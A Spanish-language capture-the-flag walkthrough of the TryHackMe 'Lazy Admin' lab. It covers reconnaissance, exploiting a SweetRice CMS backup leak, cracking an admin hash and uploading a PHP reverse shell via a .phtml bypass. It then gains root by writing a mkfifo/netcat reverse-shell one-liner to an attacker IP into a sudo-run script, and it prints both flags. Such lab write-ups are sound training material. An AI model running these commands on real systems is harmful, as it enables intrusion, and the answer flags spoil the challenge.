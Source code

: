 # 1. Lazy Admin

## a) ¿Cuál es la flag de usuario?

Comenzaremos con un escaneo básico usando nmap para ver los puertos abiertos y sus servicios, así:

```
nmap -sV -T5 10.10.89.75
```

Vemos que la máquina objetivo tiene dos puertos abiertos, el 22 con un servicio SSH y el 80 con un servidor web Apache.

![](IMG/Pasted%20image%2020250417013605.png)

Echaremos un vistazo a la página web. Obtenemos la página por defecto de Apache.

![](IMG/Pasted%20image%2020250417013814.png)

Haremos un escaneo con GObuster para listar los directorios, a ver si encontramos algo interesante, porque de momento poco tenemos.

```
gobuster dir -u http://10.10.89.75 -w /usr/share/dirb/wordlists/common.txt
```

Hemos descubierto una nueva ruta, /content.

![](IMG/Pasted%20image%2020250417014108.png)

Accedemos a la ruta descubierta y vemos que hay instalado un CMS llamado Sweetrice.

![](IMG/Pasted%20image%2020250417014203.png)

Sabemos el nombre del CMS pero no la versión concreta, por lo que buscamos en google simplemente como averiguar la versión del mismo, uno de los resultados nos lleva al repositorio de sweetrice en Github y vemos que la versión se muestra en el archivo changelog.txt.

![](IMG/Pasted%20image%2020250417015919.png)

Lo visitamos y vemos que la versión instalada es la 1.5.0

![](IMG/Pasted%20image%2020250417020003.png)

Con estos datos, buscamos algún exploit que nos pueda servir en [exploit-db](https://www.exploit-db.com/), donde encontramos uno que nos permite obtener una copia de seguridad de la que, con suerte, podremos obtener información útil.

![](IMG/Pasted%20image%2020250417020133.png)

Nos dice concretamente que podemos acceder a las copias de seguridad de la base de datos en la ruta http://localhost/inc/mysql_backup y a las copias de seguridad de la página web en la ruta http://localhost/SweetRice-transfer.zip. A nosotros de momento nos interesa la copia de seguridad de la base de datos.

![](IMG/Pasted%20image%2020250417020238.png)

Accedemos a la ruta dada, y efectivamente, tenemos una copia de seguridad.

![](IMG/Pasted%20image%2020250417020629.png)

La descargamos para ver el contenido.

![](IMG/Pasted%20image%2020250417020842.png)

Encontramos, nombres de usuario y lo que parece ser el hash de una contraseña.

![](IMG/Pasted%20image%2020250417021023.png)

Vamos a probar a descifrar el hash, por si fuera conocido en alguna web destinadas a ello, concretamente en [hashes.com](https://hashes.com/en/decrypt/hash), y nos dice que la contraseña es Password123.

![](IMG/Pasted%20image%2020250417021245.png)

Ya tenemos nombres de usuario y la contraseña, tan solo nos queda encontrar la ruta al panel de administración para intentar acceder. Usaobuster, pero en esta ocasión sobre el directorio /Content

```
gobuster dir -u http://10.10.89.75/content -w /usr/share/dirb/wordlists/common.txt
```

Tras probar las rutas obtenidas, descubrimos que el panel de administración es accesible a través de la ruta /as

![](IMG/Pasted%20image%2020250417021609.png)

![](IMG/Pasted%20image%2020250417021703.png)

Tratamos de acceder con las credenciales que tenemos.

el usuario "admin" no es. Probamos con "manager".

![](IMG/Pasted%20image%2020250417021744.png)

Y ahora sí, tenemos acceso.

![](IMG/Pasted%20image%2020250417021844.png)

Revisamos el panel de administración y encontramos la opción "Media center", que nos permite subir archivos a la web. Trataremos de subir una shell reversa, como siempre, usaremos la de [Pentest monkey](https://github.com/pentestmonkey/php-reverse-shell), que ya con tantas máquinas en las que la hemos usado, se está convirtiendo en todo un clásico.

![](IMG/Pasted%20image%2020250417022243.png)

Descargaremos la shell la configuraremos y la subiremos a la web.

![](IMG/Pasted%20image%2020250417022349.png)

![](IMG/Pasted%20image%2020250417022450.png)

Hemos intentado subirlo, pero no ha habido éxito, debe ser por la extensión que debe estar restringida, la cambiaremos de php a phtml como ya hicimos anteriormente en otra máquina, para hacer bypass a la protección.

![](IMG/Pasted%20image%2020250417022644.png)

Y ahora sí, ya lo tenemos subido.

![](IMG/Pasted%20image%2020250417022709.png)

Ahora, ejecutaremos un listener con netcat para recibir la shell.

```
nc -lvnp 1234
```

![](IMG/Pasted%20image%2020250417022751.png)

Y ejecutamos nuestra shell reversa en el navegador, podemos hacerlo clicando sobre el archivo que hemos subido en la página anterior.

![](IMG/Pasted%20image%2020250417022913.png)

Y obtendremos en nuestro listener el acceso a la shell.

![](IMG/Pasted%20image%2020250417022946.png)

Como hemos hecho en otras máquinas, trataremos de conseguir una shell mas estable e interactiva, para ello usamos:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

![](IMG/Pasted%20image%2020250417023057.png)

Ahora, buscaremos el archivo user.txt y lo abriremos para obtener la flag de usuario.

![](IMG/Pasted%20image%2020250417023206.png)

**Respuesta: THM{63e5bce9271952aad1113b6f1ac28a07}**

## b) ¿Cuál es la flag de root?

Ahora, trataremos de escalar privilegios, para ello, comenzaremos con ejecutar sudo -l para ver que comandos puede ejecutar el usuario con permisos root.

![](IMG/Pasted%20image%2020250417023338.png)

Vemos que puede usar /usr/bin/perl y /home/itguy/backup.pl con permisos de root. Echaremos un vistazo al contenido del archivo backup.pl.

![](IMG/Pasted%20image%2020250417023506.png)

Vemos que este archivo ejecuta el script /etc/copy.sh. Así que vamos a tratar de modificar ese archivo para escalar privilegios.

![](IMG/Pasted%20image%2020250417023646.png)

Descubrimos que ya tenemos el trabajo casi hecho, ya que el script contiene código para enviar una shell root a la ip y el puerto que se configuren, así que solo tenemos que modificar la Ip y el puerto existentes en el archivo por la Ip y puerto de escucha de nuestra máquina atacante. Usamos:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 10.8.16.0 4444 > /tmp/f" > /etc/copy.sh
```

![](IMG/Pasted%20image%2020250417024138.png)

Y ejecutaremos otro listener con el puerto 4444 con netcat para recibir la shell con permisos root.

```
nc -lvnp 4444
```

![](IMG/Pasted%20image%2020250417024238.png)

Ejecutaremos el archivo perl "backup.pl".

```
sudo /usr/bin/perl /home/itguy/backup.pl
```

![](IMG/Pasted%20image%2020250417024346.png)

Y en nuestro listener, ya hemos recibido la shell.

![](IMG/Pasted%20image%2020250417024412.png)

Ya sólo tenemos que buscar el archivo root.txt y abrirlo para ver la flag. (el archivo está donde siempre, /root/root.txt, que originales son)

![](IMG/Pasted%20image%2020250417024523.png)

**Respuesta: THM{6637f41d0177b6f37cb20d775124699f}**
